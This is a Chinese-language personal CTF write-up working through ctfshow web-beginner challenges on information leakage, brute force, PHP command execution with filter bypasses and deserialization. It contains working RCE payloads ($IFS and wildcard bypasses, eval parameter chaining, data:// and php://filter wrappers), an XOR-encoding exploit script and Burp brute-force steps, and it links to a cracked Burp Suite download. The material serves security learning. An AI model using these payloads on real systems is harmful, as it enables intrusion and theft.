






## 前言
基于ctfshow的web入门所做的整理，希望能够学到一些皮毛。
## web1（信息泄露篇）

F12打开开发者工具查看，也可以使用 ctrl + u 查看网页源代码。


## web2

查看给出的提示


我们看看是什么情况，搜索著名博主ouluhumen的博客☞☞[ouluhumen老师](https://ouluhumen.github.io/2023/04/30/Ctfshow-Web%E5%85%A5%E9%97%A81-20%E9%A2%98/)


现在我们总结一下

查看源代码：ctrl + u = view-source：url

开发者工具：F12 = 右上角元素 = ctrl + shift + i

## web3

这里的抓包应该是指回显


## web4


这个robots.txt应该就是和爬虫有关，像是个规则，告诉你哪个可以爬，哪个不能爬。


这里对应的，直接在url后面输入这个不允许输入的文件。


## web5


phps源码泄露是什么，先看主页，输入index.php


再在后面加入一个s，结果如下，它可以下载，打开能看见flag，这里打开的方式推荐使用notepad。


为什么phps可以下载源码，这个是和http服务器的解析有关系。

*文件就是php的源代码文件,通常用于提供给用户(访问者)查看php代码,因为用户无法直接通过Web浏览器看到php文件的内容,所以需要用phps文件代替。*

看到有一个方法是dirsearch（很久以前大概自己弄过，专门用来扫漏洞的），也可以确定这个名字，也有以flag，login为开头的，这里记一下。

#### dirsearch.py

这个刚刚看见的，归结的感觉很多了👉[web信息泄露相关内容](https://www.cnblogs.com/wysngblogs/p/15940304.html)

如果你的windows上装了git或者cygwin，你就可以像我这样安装，当然直接下载一个py文件然后cmd里用也是一样的。

`git clone https://github.com/maurosoria/dirsearch`


这一篇把下载可能会遇到的问题说了，这是链接👉👉[dirsearch安装问题](https://blog.csdn.net/wuxinweii/article/details/126914934)

`pip install -r requirements.txt -i http://pypi.douban.com/simple/ --trusted-host pypi.douban.com`（这一串是问题核心，下面是一个示例）


看看使用dirsearch后会产生什么影响。


整个跑也能找，但是太太太慢了，可以考虑对应的做字典，时间会省不少


[Diresearch 默认字典位置与自定义字典使用方法](https://blog.csdn.net/qq_46145027/article/details/122174063)

[【渗透神器】信息收集-目录爆破Dirsearch篇](https://zhuanlan.zhihu.com/p/483702332)


一下子就出来了，大概3秒。这里**-w**就是指定字典路径。

## web6


url后输入www.zip，即可下载源码压缩包


解压包里两个文件，一个是php，一个就是flag文件


这当中两者flag不同的原因是解压的文件是之前www服务器中的，在这个靶场重新构建时会重新写入，所以输入url出现的flag是对的

## web7、8


两题题目相同。我们从“版本控制和生产环境”入手，因为我什么都不懂，所以就直接搜着看看能有什么发现。显示结果最多的wp表示与git和svn有关系，因为最近搞的博客，所以对于git还是有印象，它是分布式系统，像更新博客，就是一份在自己的本地仓库进行修改，然后pull到github的远程仓库，这就是分布式方便的地方。这个操作其实就是“不部署到生产环境”，而是在本地上部署操作，然后直接同步到生产环境。


版本控制最主要的功能就是追踪文件的变更。它将什么时候、什么人更改了文件的什么内容等信息忠实地了记录下来。每一次文件的改变，文件的版本号都将增加。除了记录版本变更外，版本控制的另一个重要功能是并行开发。[版本控制的概念，点击去往百度喵！](https://baike.baidu.com/item/%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6/3311252?fr=aladdin)*主打一个同步，一直用在软件更新上*

git与svn的区别也可以自己去搜，我觉得最核心的区别就是分布与集中。在这里，.git是git仓库所使用的目录，包含所有跟踪信息。这里ouluhhumen老师有整理，我就直接贴在下面了。

.git目录中包含了以下主要内容：

> HEAD文件：指向当前所在的分支或提交。

> config文件：存储了Git仓库的配置信息，例如用户名、邮箱、远程仓库等。

> hooks目录：包含了Git钩子脚本，用于在特定的Git操作时触发自定义脚本。

> objects目录：存储了Git仓库中所有的对象，包括提交、分支、标签等。

> refs目录：包含了所有的引用，例如分支、标签等。

> index文件：存储了当前工作目录中所有文件的状态信息，包括文件名、文件状态、文件指针等。

> logs目录：存储了Git仓库中所有引用的更新日志，用于记录所有提交和分支的变更历史。


svn的也贴贴

.svn目录通常包含以下文件和目录：

> entries：此文件记录了当前目录和其子目录中每个文件和目录的元数据信息，包括文件名、类型、版本号等。

> format：此文件记录了.svn目录的格式版本号。

> wc.db：此文件是一个SQLite数据库，存储了SVN管理的项目的版本历史和其他元数据信息。

> pristine目录：此目录存储了SVN管理的项目的每个文件的原始版本，用于支持SVN的版本比较和合并操作。

> tmp目录：此目录存储了SVN的临时文件和缓存文件。


对应我直接写入字典，比较舒服。


## web9


来分析一下原因，这里我直接跟着b站教程走的，利用wsl的ubuntu


现在我要把当中aaa改成一个aba，未保存直接关闭。

​                                         


重新打开，1.php还在，使用ls -al查看所有文件


.1.php.swp为交换文件，是在vim非正常退出的情况下产生的，它会存储在atp服务器里面，作为一个非解析内容作为二进制下载，这种情况下我们可能能拿到它的源码。


## web10


在application里面的cookie，解个码


## web11（域名失效）

## web12


用我的字典扫出来一个robots.txt，disallow一个admin，我们输入进去看看


密码在网站最下面，用户名为root


## web13


文档 = document


## web14


嗅觉敏锐，ctrl+u ctrl+f editor


编辑器漏洞利用，文件上传，这是一个漏洞攻击的考量方式。

web浏览器目录一般都在/var/www底下的html


那个nothing here有点“此地无银三百两”的滋味了。


估计是了，放在url下看看。


错误原因是使用了绝对路径。由最开始找到editor那里的路径，从根目录往后试试相对路径，也就是nothinghere那里。结果正确。


## web15


网页底部找到一个邮箱，我是要找这个qq号吗？


犯傻了，上面用户名是admin，因为是后台登录（汗）😂😂😂


## web16


先看看概念喵~~~~


*探针的主要用途是帮助开发人员了解服务器的配置和运行环境，以便他们能够更好地调试和优化应用程序。探针可以提供有关 PHP 版本、扩展模块、配置选项、请求信息、环境变量等信息。 ---from ouluhumen*

使用tz.php打开看看。


*phpinfo 函数会生成一个包含了 PHP 配置信息的 HTML 页面，其中包含了 PHP 版本、编译选项、加载的扩展模块、环境变量、请求信息等等。通过查看 phpinfo 页面，你可以了解 PHP 的配置和运行环境的详细信息，帮助你诊断和解决 PHP 应用程序的问题 --from ouluhumen*

点击phpinfo跳入，或者url后输入act=phpinfo


## web17


backup.sql是存备份文件的地方，url后输入即可下载


看看我的workbench里，找到了。


## web18


超你马的比😊😊😊😊😊

ctrl+u看一下源代码，看一下js


下面那条放我全新的hackbar里，应该是unicode编码，所以可以使用alert方式，这里另种


使用unicode解码得出一个网址，110.php


## web19


这个下面是注释，是用户和密码。


大意了


好叭！得结合一下题目，这里用到的是AES。iv为初始向量，选择CBC模式





## web20


被脱裤了（？）通过/db/db.mdb下载文件，使用notepad得到答案


至此信息泄露到此

## web21（爆破篇）


哈哈！开始爆破咯！听着好帅！😊😊😊😊😊这一板块使用到很多burpsuite，建议搭配firefox，可以自定义端口。


抓个包看看


[这一篇文章可以看看，点击食用，讲的是OAuth框架](https://zhuanlan.zhihu.com/p/409073486)

看最下面的Authorization，这个字段放的是**鉴权信息**，主要包括两部分：

1.鉴权类型

最主要的鉴权方式是Basic和Bearer，表示使用的基本身份认证或持有人身份认证

Basic base64编码（username：password）

**eg.Authorization: Basic YWRtaW46ZnVjaw==**


哈哈，just kidding，但是他确实是这样的。而对于Bearer鉴权，凭证则是犹如OAuth服务器颁发的一个token，就是访问令牌，格式为**Bearer access_token**，这里token就是持有人身份认证。可以复制proxy到Intruder，也可以用ctrl+i


在最后的==后点击Add$按钮，我们选择字典爆破，点击payloads


我们要爆破的是密码，选择的是前缀为**admin：**，然后已知的是它是Authorization里的一部分，所以是经过Base64加密的，这里选择的时候可以写一下。


这里符号不需要加密，否则爆不出来力（悲）


爆破！😊😊😊😊😊


这个我楞了一下，ok就好了，这个免费版还是能用的，我打算搞一手破解版，有哥们跟我说那个速度快。很快啊，哥们搞到手了。


[指路👉👉👉BurpSuite专业版下载](https://blog.csdn.net/qq_37776764/article/details/130037000)

艰难的😢😢😢😢😢


也可以，上面多打了一个v


## web22


这个域名失效了，但是能在靶场网页上看见

## web23


> 在 Web 开发中，`?token=` 是一种常见的 URL 参数格式，用于向服务器传递数据。当浏览器请求一个 URL 时，可以在 URL 后面添加一个问号 `?`，然后在问号后面添加参数，参数的格式为 `key=value`，多个参数之间使用 `&` 连接。
>
> 比如，一个包含token参数的url可能长这样
>
> eg.https://example.com/path/to/resource?token=abc123

是一段php代码，所以这里的方式就是要传token的参。


这段代码是一段 PHP 代码，用于检查传递给它的 URL 参数 "token"。如果满足特定条件，则会输出一个叫做 $flag 的变量的值。

代码中包含了一个叫做 "flag.php" 的文件，可能是存储了一些敏感信息的文件。

在检查 "token" 参数时，它会将其进行 MD5 哈希处理，并检查哈希值的特定位置上的字符是否相等。如果相等，它会计算出这些特定位置上字符的总和并将其除以哈希值第一个字符的值。如果结果等于哈希值第 31 个字符的值，则代码会输出 $flag 的值。

如果 "token" 参数不存在，代码将会输出自身的源代码。同时，它禁用了错误报告功能，这意味着任何错误都不会被显示出来，这使得攻击者更难以找到漏洞。

**所以要做的就是制作出一个token令牌，使得它的哈希满足上述规则**


*只是一种方式，本人没有用这种方式实现，用比较蠢的又比较爽的*


直接扫也行，出来一个422和1202，两个都是对的，哈哈😊😊😊


#### 另外的思路（sublime+php）


*如果您在`echo`语句中使用`\n`时没有将其放在双引号中，PHP将不会将其解释为换行符，而是将其视为普通的文本。因此，如果您尝试使用`echo $i \n;`而不是`echo "$i \n";`，PHP会在尝试解析`\n`之前将其视为`$i`的一部分，这将导致语法错误。因此，为了在`echo`语句中使用特殊字符，您需要将它们放在双引号中。*

## web24


拿到题目我们能看见两段。我们分为A、B段来分别分析。

A段为php代码。


这是一段 PHP 代码，它包含一个名为 "flag.php" 的文件，并检查 GET 请求中是否存在名为 "r" 的参数。如果存在，它将变量 "$r" 的值设置为 "r" 参数的值，使用 "mt_srand()" 函数生成一个随机数，并使用 "intval()" 检查 "$r" 的值是否等于生成的随机数。如果两个值相等，则输出flag。


如果 GET 请求中不存在 "r" 参数，则使用 "highlight_file()" 函数突出显示当前文件的源代码，并使用 "system('cat /proc/version')" 命令打印出 Linux 内核版本的输出。

"cat /proc/version" 命令显示服务器上正在运行的 Linux 内核版本的信息。这些信息对攻击者来说可能很有用，可以用于寻找系统的漏洞。

值得注意的是，"error_reporting(0)" 函数用于关闭错误报告，这可能会使在出现问题时调试代码变得更加困难。

B段就是else分支下打印出的Linux内核版本的输出。


我的第一个想法当然还是最简单的爆破，毕竟不用动脑子，还有就是利用php写个脚本跑跑，我先试试第一种。


完蛋，跑了一万个没结果，还是想想实际的...


`mt_srand()` 函数返回的是布尔值，而不是生成的随机数。因此，在代码中，变量 `$i` 将被赋值为 `true` 或 `false`，而不是生成的随机数。可以这么说，mt_srand是随机数序列，种子相同，随机数序列生成也就相同。

但是将这个数值放入后也没有成功，发现是php版本的问题，我使用的应该是7.3.4？这里用小皮面板调一下版本号，非常的方便，非常的新鲜。慢慢调，慢慢试。


php7.09nts是这个，5.3.29也不对，我待会得想想如何得到网站的php版本。


啊？怎么回事呢？我一开始找到的就是这个？怎么没进去？我本来一开始就赢了呜呜呜😢😢😢😢😢


我现在气死了！！！啊！！！！！！我要！！报仇！查他的版本号！操他妈的！

点击F12，查看网络模块，刷新一下网页或者**ctrl+R**跳出来下面的包，查看响应头，X-Powered-By或者Server就是版本，显示为7.3.x（都是7.3的版本），以后记住喵！


## web25


还是分析它看看。


这里我想随便先传一个r的参数，看会不会回显一个rand，结果是可以的。


一个负值，我直接加1试试。即**1999098941**。


似乎又大了？接着调整几次范围。


941没有回显，非常奇怪！别的都有！下面这个能验证我的想法。


下一步就是token，那么就是url处要多一个传参**&?token=**，这里我先爆一下，但是无果，找教程说还是要爆种子，有工具的。叫做**php_mt_seed**。由于中间中断了一次，所以又是一个重新的随机，这里只是一个演示。


[PHP伪随机数漏洞，以及php_mt_seed脚本的使用](https://blog.csdn.net/qq_58784379/article/details/121715072)


注意php版本，**7.3**


缩小范围，只有11和14满足了。试了一下11，直接成功。


## web26


因为直接什么都不输也能连到数据库，所以抓包看回显也行


## web27


？？？？？


这当中有一些问题打断了我，详见我的博客[经验第六篇](https://rainsbluechan.github.io/2023/05/18/%E7%BB%8F%E9%AA%8C%E9%9B%86/)


有些晕。试了好几次，回显都因为这个弹出页面改成了get，花了一些时间找，终于发现一个

#### 小技巧（查看http history）


找的是年月日，那么做一个对应的字典应该很方便。


艰难


## web28


作为爆破篇的最后一题，这看着确实很怪，尤其是这个url...

我老实说我真没看懂，我得去找找wp了。


提示是index.php，剩下是在两个数字里爆破。


这里加一个index.php，作为主页输出


要对两个变量进行爆破，也就是100x100的数量。选择Clusterbomb。


这样就会出现两个包


## web29（命令执行篇）


*这段代码是用PHP编写的，它包含一个条件语句，用于检查请求中是否设置了名为'c'的参数。如果设置了该参数，代码将把'c'参数的值赋给变量$c。然后，代码使用正则表达式检查$c变量的值中是否包含字符串"flag"（忽略大小写）。如果$c变量的值中不包含字符串"flag"，代码将使用eval()函数来执行$c变量的内容。*

*在PHP中，eval()函数用于将一个字符串作为代码块来执行。这意味着，如果正则表达式检查没有检测到字符串"flag"，则$c变量中包含的任何有效的PHP代码都将被执行。然而，eval()函数的使用很危险，因为它允许任意代码执行，并且可能容易受到代码注入攻击的影响。*

这边直接来测试一个phpinfo()，看看能不能跳出php版本，结果是可以的。


这样都行。哈哈。但是记住，**一定要有分号**，否则出不来。


执行system的ls，看目录。猜想最后cat一下就出来了，但是那个不对，或许可以用file_get_contents（），但是失败。得这样。


执行后失败，因为有flag过滤，所以换成问号代替一下。这里复制文本内容，使得绕过原有的来查看。


##### 小尝试


最简单的绕过，直接cat


## web30


这里直接禁止了system命令，还有php。得采用```  `的方式


反引号，在php中等同于system，类似于shell执行。*php中有cp，但是没有ls，还得system*

## web31---参数跳板


```
http://url/?c=eval($_GET[1]);&1=phpinfo(); //这里让他执行第一个参数
在这个URL中，参数"c"的值为"eval($_GET[1]);"，其中"[1]"表示从GET请求中获取的第一个参数的值。而在请求中，第一个参数的值为"1"，它又为"phpinfo();"。因此，"eval($_GET[1]);"将被解析为"eval('phpinfo();');"，这将执行"phpinfo();"函数，并将PHP环境的信息输出到客户端。
```


这里做一个横向的对比。get2就是跟着2。


这里ban掉的关键字就可以全部实现。注意：**php代码在得开源码才能看见**，也可以tacc


这里其实使用到的就是一个跳板，可以无视任何正则。

## web32---超级过滤（文件包含）


ban掉了**反引号，逗号，括号，分号**。上面的跳板用不了了。

可代替分号的是**>?**，然后使用include命令来包含一下。


这里可以通过读取非php的文本文件来得到flag，但是还是用教程方法先做。这里用到的是base64编码的过滤器，也是伪协议，通过指定的一个通道来读取某个资源。


filter代表使用通道，后面表示通道名字为base64.


解码


## web33

还是过滤。


限制和上面一题应该是差不多？？多过滤一个**双引号**。相同方法和上面一样。


它这里介绍了第二种方法。include可以换成require


## web34

过滤。


多了个**冒号**。前面的方法也能做。


不需要使用括号的

```
echo print isset unset include require
```

## web35

过滤。


ban了**<**和**=**。所以是一样的。


## web36

还是过滤.....（吐了）


ban了个**反斜杠**还有0到9的数字，这样看来换行符用不了了。不让用数字可以用字母。


## web37

过滤。终于有点不一样了。


使用到data的伪协议。

```
data://text/plain,<?php 代码;?>  #data协议的作用是把后面的字符串作为php代码进行执行
```


## web38

过滤。


这里将<?php换成**<?=**（短标签），然后php换成问号占位符。没问题。



## web39

还是过滤。


没有回显了，而且后面强制加了.php的后缀。但是这条还是可以执行，直接**rce**了。

*RCE是远程代码执行（Remote Code Execution）的缩写。它是一种攻击技术，攻击者可以利用漏洞远程执行任意代码，从而控制目标系统或服务器。攻击者通过RCE可以在目标系统上执行恶意代码，这可能会导致数据泄露、系统崩溃、服务中断等严重后果。*




## web40

还是过滤 。。。。。。。。


这是不是把改ban的符号全ban了....汗，问号也不能用？有提示解法。

```
show_source(next(array_reverse(scandir(pos(localeconv())))));
通过货币信息扫这个pos，然后把目录进行翻转，然后取下一个next，再显示源码。
```


还有一种方法，是获取当前所有的变量。

```
?变量=print_r(get_defined_vars());
```


这里我们能看见这里有几个数组。前置加上next（）。


```
?变量名=print_r(array_pop(next(get_defined_vars())));    #弹出
```

## web41


不允许数字，也不允许有字母。不能有大小写字母。关键字符也不能有。

通过一些特殊字符来构造出一个字母。这里使用到官方提示的一个脚本文件。[羽师傅博客](https://blog.csdn.net/miuzzx/article/details/108569080)


```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)
```

我去试试别的靶机，这个能不能用（）

不行，非常不行（），这是针对性做这个抑或用的。

## web42

过滤。


很短，这里参数进到system里，是可以执行指令的意思吗？但是后面的写入 **>** 会去到哪里？看了讲解说是会输出到黑洞。*即文件描述符，往里面写的任何数据都不会保存*

这里2代表的是错误输出，1代表的是标准输出。把错误输出通过>&绑定到标准输出，也就是说标准错误的输出也会在标准输出里面，然后统一输出到这个黑洞里面。

这句话所以就一个意思，所有输入的c的值是不显示的。


提示告诉我们需要查看源代码，使用cat指令。

面对这样的一种过滤方式，可以采用**双写绕过**，它是把第二个命令写到黑洞里，通过分号阻隔后，第一个值就会正常输出。

```示例
?c=ls;ls
此时system($c." >/dev/null 2>&1")就会是
system(ls;ls >/dev/null 2>&1");
第一个命令正常执行，第二个命令被放入黑洞。
```


这里注意，之前说过php下cat是需要看源码才能显示flag的，所以这里直接tac flag.php



## web43


这里进行了一次过滤，禁用了分号，可以考虑用>?，然后把cat禁了。

#### 常用(陆续补充)

```Rainsblue
分号;          >?
换行符/        %0a
；			命令分割符
&& 			 第一个命令执行成功后才执行第二个命令，相当于分割符，注意使用url解码，为%26%26
```

这里还是跟着教程走。先将输入用url编码。





相同的方式在前面可用。

## web44


多ban一个flag.问号做占位符。


## web45-49


ban了一个空吗...也就是说我的输入不能检测出有空%20（ascii码）就行了。

这是官方方式，使用到echo$IFS`tac$IFS*的方式


第二种方式，ascii码表中找一个tab来试试。[ascii码对照表](https://baike.baidu.com/item/ASCII/309296?fromtitle=ascii%E7%A0%81&fromid=99077&fr=aladdin)，一般而言php中替代的是09


依然可用。


## web50

终于到50停下来了，原因是来了个百分号。


这里使用带行号读，使用nl👉👉[nl命令详解](https://www.initroot.com/linuxintroduction/linuxfileviewnl.html)

```nl
nl<fla''g.php||   # ''由于这种方式不支持通配符，所以使用单引号自动忽略。打开源代码即可
下面ls能在没有看见源代码的时候看见1
```


## web51


久违，今天是6月25日。

应该是可以用上一题的payload来进行攻击。


## web52


把管道符封了，但是把dollar符给放出来了，所以可以采取使用重命名的方式来做。


这里用了45-49的一个$IFS


这里因为数字被过滤，所以只能用这种方式放进去。mv${IFS}fla?.php${IFS}a.txt


假的。所以需要用系统自带的空格来看根目录。


?c=ls${IFS}/||ls，然后将它移动到默认网页根目录。注意下面有一个问题，就是这个flag会被过滤，所以黏贴的时候注意用问号替代它。


## web254（反序列化）


定义了一个类。没有一个魔术方法（魔术方法就是下划线开头的），前面先不看，先看第二张图。


这里get两个参数，然后实例化一个类（$user = new ctfShowUser），但是这里没有魔术方法，所以没有什么代码可执行。if($user-->login($username,$password))，这里执行了一次代码，执行了类里的一个login，如果返回True，那么就checkVip。这里不需要输入反序列化的字符。这里username和password都是6个x。

当判断为真，会将返回值重新写入isVip，然后回到下面。传个参试试。这里主要是以了解类为主。


post可以这样写，一样的。好处是它写在body里面，然后，注意符号要编个url的码。

## web255


这里用的就不是实例化，用的是unserialize（反序列化），简单来说就是将字符串变为值，序列化就是将原本的值变为字符。所以这里值的关系就不大了。我学操作，然后说是先将class代码复制到本地php。


然后我们看一下它的调用。和上题代码一样，唯一不同的是，这里即使用户名和密码对了，但是状态依旧是false。

我们需要做的是把vip状态进行修改。第一种尝试是，在本地直接改为true。


echo输出时记得要进行url编码，因为这里private不可见，不这么做可能会出现不可见字符。然后括号里面先进行序列化，再新建一个类。这个时候要修改一下cookie。cookie名字叫user。


这里再按照上一题，先过反序列第一层判定，再过第二层的xxxxxx。


## web256


多了个判定。用户名如果和密码不相同，就会输出条件。这里使用魔术方法_construct进行一个构造，修改自己的账密即可。**注意是两个下划线！！**


#### $this 和_construct

在 PHP 中，$this 是一个特殊的对象，表示当前对象的引用。它只能在类中使用，用于引用当前实例化的对象。当在一个方法中使用 $this 时，它指的是调用该方法的对象本身。

例如，如果有一个名为 MyClass 的类，它有一个名为 myMethod 的方法，那么在 myMethod 方法中使用 $this 就会引用当前实例化的 MyClass 对象。

下面是一个示例，演示如何在 PHP 类中使用 $this：

```php
class MyClass {
    private $myProperty;
    public function __construct($value) {
        $this->myProperty = $value;
    }
    public function myMethod() {
        echo "The value of my property is: " . $this->myProperty;
    }
}
$obj = new MyClass("Hello");
$obj->myMethod(); // 输出 "The value of my property is: Hello"
```

在上面的示例中，$this->myProperty 引用当前 MyClass 对象的 myProperty 属性，而 $this->myMethod() 引用当前 MyClass 对象的 myMethod 方法。

_construct，是将一个值进行修改的方法。在反序列化过程中，它会作为魔术方法优先调用。

这里有一个很妙的点，它是作为一种**动作**，注意是**动作**。修改了false为true，而这个动作是有痕迹的。换言之，他模拟了修改的操作，使每一步看起来像是真的一样，这才是魔术真谛。当然这里不写也没关系（汗）

## web257


分析一下，首先是一个反序列化的操作，cookie为user，然后是一个login的指向。不过这里有一个魔术方法，先执行了new info（），class现在会变成user。然后有一个销毁的destruct。看来flag在code里面。利用后门类。

**反序列化的宗旨就是不能改它的方法的代码，也就是它的类方法的代码，但是我可以控制类方法的属性。**通过控制属性来完成我们所需要的一些操作。这就是反序列化的一个大题思路。

这里最重要的就是后门类，所以构造改为backDoor。back里code改成传参，传post参，参名为1.


成功rce。


记得每次execute后要刷新，否则可能跳不出来。


## web258

还是个后门利用。


序列化一个不可能序列化的内容。我们要匹配它。

思路是通过class的类做一个反序列化去找后门类。我们观察到，destruct和backdoor当中都有getinfo方法，**通过它销毁自身getinfo方法的时候调用后门类的一个getinfo方法来实现一个rce**（像不像魔术，就是仍然保有getinfo方法），我们看到backdoor里会执行当前变量为code，这里就是利用点。**之后这也是一个经验。**


修改部分。


这里输出的是序列化字符。绕过正则，正则的规则是不能出现o：数字，这里按正常思路就是下面这个。


这里有两处都需要绕过，O:11和O:8。这里采用替换的方法。我们先在字符上做一个替换。

```php
str_replace ($searchVal,$replaceVal,$subjectVal,$count )

参数：该函数接受四个参数，其中3个是强制性的，1个是可选的。所有这些参数如下所述：

●　$searchVal：此参数可以是字符串和数组类型。此参数指定要搜索和替换的字符串。

●　$replaceVal：此参数可以是字符串和数组类型。此参数指定要用于替换$searchVal字符串的字符串。

●　$subjectVal：此参数可以是字符串和数组类型。此参数指定我们要搜索$ searchVal并使用$ replaceVal替换的字符串或字符串数组。

●　$count：此参数是可选的，如果传递，则其值将设置为对字符串$ subjectVal执行的替换操作的总数。
```


rce没成功，可以看一下原因。


**想想257！！**


关键的，**要在这里写一个post**。汗


果然，这下胜利了。


## web259

啊？？


## 方便下一个博客的链接点

## 番外篇

#### 爆破（polarctf）


天，那不是和那个差不多？传个pass的参数。


#### 传说之下（雾）


哈哈，还真放的传说之下的音乐！

不管怎么说我还是得看看源码有什么东西。写了个注释


它的计分是通过javascript实现的，一般来说会放在game.js中，一看真有。


有没有办法让他的计分跳到2077呢？就把变量增大就行。

看了一个方法是在比赛途中改变量的，这里试一下。真对的。点击👉👉[zsy](http://zhangshiyu.com/post/49546.html)


控制台成功打出flag。


[CTFshow-菜狗杯-传说之下（雾）-easyPytHon_P](https://blog.csdn.net/qq_31415417/article/details/129069722)





#### 青少的复习题


光秃秃一个页面什么也没有，只能拿dirsearch扫描，找出来一个.bak文件，应该是备份文件。


qsnctf{53cbfb62-687d-4584-9462-574bd7d644da}正确


```
常见的备份文件后缀名有: .git .svn .swp .svn .~ .bak .bash_history
PHP 的备份文件有两种，分别是*.php~和*.php.bak。  前面记得加/index
```

robots.txt复习点（青少）


网络--响应标头


## 登录后台（青少）

这题非常有趣。


这里有一个细节，待会儿会谈到。看响应头，确定了是**apache服务器以及Unix系统**


登录后仅有一个界面，于是我又开始dirsearch，发现了一个cgi-bin。**所以这里有一个自己的小经验，一旦没有什么头绪的时候，遇事不决dirsearch**


我们需要绕过权限，去找bin/sh目录。


还有这里有一个需要注意的细节吧，我们看到这个url是不是以 **/** 为结尾的？下面我指出一个需要注意的地方。

```
在Web应用程序中，这个斜杠字符 "/" 通常被用作目录的分隔符。如果一个URL以斜杠字符 "/" 结尾，表示它是一个目录的URL，而如果没有以斜杠字符 "/" 结尾，表示它是一个文件的URL。

http://9accab72-e30d-4c49-be45-2ae16f6c6550.challenge.qsnctf.com:8081/cgi-bin/
*表示为cgi-bin目录*

http://9accab72-e30d-4c49-be45-2ae16f6c6550.challenge.qsnctf.com:8081/cgi-bin
*表示为cgi-bin文件*
```


看看是不是不一样？这里是一个小细节吧。我们接下来需要绕过它，用到curl指令。

